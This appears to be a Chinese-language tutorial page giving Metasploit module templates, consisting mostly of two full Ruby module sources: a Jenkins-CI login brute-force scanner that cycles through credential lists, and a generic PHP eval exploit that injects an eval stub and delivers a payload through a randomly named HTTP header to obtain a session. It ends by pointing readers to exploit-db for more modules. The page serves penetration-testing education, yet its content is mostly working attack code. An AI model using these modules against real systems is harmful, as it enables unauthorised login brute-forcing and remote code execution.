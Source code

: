 模板代码
========

辅助模块例子
------------

辅助模块通常为信息探测类，可进行端口、服务等敏感类信息的获取，对于该类模块通常可单独进行使用。

``/opt/metasploit/apps/pro/msf3/modules/auxiliary/scanner/http/jenkins_login.rb`` 模块:

.. code-block:: ruby
   :linenos:

    require 'msf/core'
    require 'metasploit/framework/credential_collection'
    require 'metasploit/framework/login_scanner/jenkins'
    
    class Metasploit3 < Msf::Auxiliary
      include Msf::Auxiliary::Scanner
      include Msf::Exploit::Remote::HttpClient
      include Msf::Auxiliary::Report
      include Msf::Auxiliary::AuthBrute
    
    
      def initialize
        super(
          'Name'           => 'Jenkins-CI Login Utility',
          'Description'    => 'This module attempts to login to a Jenkins-CI instance using a specific user/pass.',
          'Author'         => [ 'Nicholas Starke <starke.nicholas[at]gmail.com>' ],
          'License'        => MSF_LICENSE
        )
    
        register_options(
          [
            OptString.new('LOGIN_URL', [true, 'The URL that handles the login process', '/j_acegi_security_check']),
            OptEnum.new('HTTP_METHOD', [true, 'The HTTP method to use for the login', 'POST', ['GET', 'POST']]),
            Opt::RPORT(8080)
          ], self.class)
    
        register_autofilter_ports([ 80, 443, 8080, 8081, 8000 ])
        deregister_options('RHOST')
      end
    
      def run_host(ip)
        cred_collection = Metasploit::Framework::CredentialCollection.new(
          blank_passwords: datastore['BLANK_PASSWORDS'],
          pass_file: datastore['PASS_FILE'],
          password: datastore['PASSWORD'],
          user_file: datastore['USER_FILE'],
          userpass_file: datastore['USERPASS_FILE'],
          username: datastore['USERNAME'],
          user_as_pass: datastore['USER_AS_PASS']
        )
    
        scanner = Metasploit::Framework::LoginScanner::Jenkins.new(
          configure_http_login_scanner(
            uri: datastore['LOGIN_URL'],
            method: datastore['HTTP_METHOD'],
            cred_details: cred_collection,
            stop_on_success: datastore['STOP_ON_SUCCESS'],
            bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
            connection_timeout: 10
          )
        )
    
        scanner.scan! do |result|
          credential_data = result.to_h
          credential_data.merge!(
              module_fullname: fullname,
              workspace_id: myworkspace_id
          )
          if result.success?
            credential_core = create_credential(credential_data)
            credential_data[:core] = credential_core
            create_credential_login(credential_data)
            print_good "#{ip}:#{rport} - LOGIN SUCCESSFUL: #{result.credential}"
          else
            invalidate_login(credential_data)
            vprint_error "#{ip}:#{rport} - LOGIN FAILED: #{result.credential} (#{result.status})"
          end
        end
      end
    end

利用模块例子
------------

利用模块多为漏洞验证型的，通常用来进行渗透利用，利用成功的通常可获取到具有一定权限的会话，在自动化渗透检测中可被调用，也可单独使用。

``/opt/metasploit/apps/pro/msf3/modules/exploits/unix/webapp/php_eval.rb`` 模块:

.. code-block:: ruby
   :linenos:

    require 'msf/core'
    class Metasploit3 < Msf::Exploit::Remote
      Rank = ManualRanking
      include Msf::Exploit::Remote::HttpClient
      def initialize(info = {})
        super(update_info(info,
          'Name'           => 'Generic PHP Code Evaluation',
          'Description'    => %q{
            Exploits things like <?php eval($_REQUEST['evalme']); ?>
            It is likely that HTTP evasion options will break this exploit.
          },
          'Author'         => [ 'egypt' ],
          'License'        => BSD_LICENSE,
          'References'     => [ ],
          'Privileged'     => false,
          'Platform'       => ['php'],
          'Arch'           => ARCH_PHP,
          'Payload'        =>
            {
    
              # max header length for Apache,
              # http://httpd.apache.org/docs/2.2/mod/core.html#limitrequestfieldsize
              'Space'       => 8190,
    
              # max url length for some old versions of apache according to
              # http://www.boutell.com/newfaq/misc/urllength.html
              #'Space'       => 4000,
              'DisableNops' => true,
              'BadChars'    => %q|'"`|,  # quotes are escaped by PHP's magic_quotes_gpc in a default install
              'Compat'      =>
                                       {
                  'ConnectionType' => 'find',
                },
              'Keys'        => ['php'],
            },
          'DisclosureDate' => 'Oct 13 2008',
          'Targets'        => [ ['Automatic', { }], ],
          'DefaultTarget' => 0
          ))
        register_options(
          [
            OptString.new('URIPATH',   [ true,  "The URI to request, with the eval()'d parameter changed to !CODE!", '/test.php?evalme=!CODE!']),
          ], self.class)
      end
      def check
        uri = datastore['PHPURI'].gsub(/\?.*/, "")
        print_status("Checking uri #{uri}")
        response = send_request_raw({ 'uri' => uri})
        if response.code == 200
          return Exploit::CheckCode::Detected
        end
        vprint_error("Server responded with #{response.code}")
        return Exploit::CheckCode::Safe
      end
      def exploit
        # very short timeout because the request may never return if we're
        # sending a socket payload
        timeout = 0.01
        headername = "X-" + Rex::Text.rand_text_alpha_upper(rand(10)+10)
        stub = "error_reporting(0);eval($_SERVER[HTTP_#{headername.gsub("-", "_")}]);"
        uri = datastore['URIPATH'].sub("!CODE!", Rex::Text.uri_encode(stub))
        print_status("Sending request for: http#{ssl ? "s" : ""}://#{rhost}:#{rport}#{uri}")
        print_status("Payload will be in a header called #{headername}")
        response = send_request_raw({
            'global' => true,
            'uri' => uri,
            'headers' => {
                headername => payload.encoded,
                'Connection' => 'close'
              }
          },timeout)
        if response and response.code != 200
          print_error("Server returned non-200 status code (#{response.code})")
        end
        handler
      end
    end

.. note::

    更多模板代码请在https://www.exploit-db.com/search/或其它网站中搜索，也可在本地环境中（/opt/metasploit/apps/pro/msf3/modules/）查看框架自身集成好的模块代码